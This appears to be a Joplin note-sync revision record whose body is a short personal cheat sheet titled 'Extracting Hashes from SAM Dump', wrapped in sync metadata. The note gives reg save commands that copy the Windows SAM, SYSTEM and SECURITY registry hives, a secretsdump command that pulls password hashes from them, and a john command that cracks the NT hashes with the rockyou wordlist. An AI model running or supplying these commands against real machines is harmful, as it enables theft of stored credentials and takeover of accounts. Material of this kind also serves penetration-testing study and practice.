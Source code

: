 id: a6b86d544c6d4f2cb4e54b9b2c5ab11d
parent_id: 
item_type: 1
item_id: a7dbdaf2ef9b44448cfde1a5b767b763
item_updated_time: 1650553169179
title_diff: "[{\"diffs\":[[1,\"Extracting Hashes from SAM Dump\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":31}]"
body_diff: "[{\"diffs\":[[1,\"# Using Reg\\\n\\\nreg save hklm\\\\\\\\sam C:\\\\\\\\sam.save\\\n\\\nreg save hklm\\\\\\\\system C:\\\\\\\\system.save\\\n\\\nreg save hklm\\\\\\\\security C:\\\\\\\\security.save\\\n\\\nOnce all is extracted back to kali, then try to get the hashes\\\n\\\n> \\\\# If using venv\\\n> \\\n> python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL\\\n\\\nOnce you get all the hashes, we can put the hashes in a file and crack with john\\\n\\\n> john --format=nt hashes --wordlist=/usr/share/wordlists/rockyou.txt\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":454}]"
metadata_diff: {"new":{"id":"a7dbdaf2ef9b44448cfde1a5b767b763","parent_id":"1ad489f21b3448a899b35a092175dee6","latitude":"1.30360000","longitude":"103.85540000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T15:03:31.442Z
created_time: 2022-04-21T15:03:31.442Z
type_: 13